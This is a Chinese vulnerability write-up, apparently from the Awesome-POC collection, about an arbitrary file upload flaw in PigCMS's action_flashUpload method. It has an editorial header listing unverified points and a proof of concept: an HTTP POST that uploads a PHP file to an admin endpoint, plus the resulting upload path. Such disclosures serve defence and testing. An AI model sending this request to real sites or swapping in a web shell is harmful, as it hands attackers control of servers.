

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：manage/background入口可访问，PHP上传目录可执行；是否鉴权未说明

- **事实待核（1）**：与359同文仅来源/图片目录不同；重复目录把端点当产品。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **凭据与会话边界（2）**：无版本，空Host无Cookie/登录页面不能证明未授权。抓包中的会话不能视为未认证访问证明。需重新取得授权测试会话，不能复用文中值。

- **证据待核（3）**：multipart末尾缺--结束标记；固定2023输出路径非通用，结果仅图。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# PigCMS action_flashUpload 任意文件上传漏洞

## 漏洞描述

PigCMS action_flashUpload 方法中存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件获取到服务器权限

## 漏洞影响

pigcms

## 网络测绘

```
app.name="PigCMS"
```

## 漏洞复现

登陆页面


验证POC

```
POST /cms/manage/admin.php?m=manage&c=background&a=action_flashUpload HTTP/1.1
Host:
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----aaa

------aaa
Content-Disposition: form-data; name="filePath"; filename="test.php"
Content-Type: video/x-flv

<?php phpinfo();?>
------aaa
```



```
/cms/upload/images/2023/08/11/1691722887xXbx.php
```


---

> 来源：Threekiii/Awesome-POC
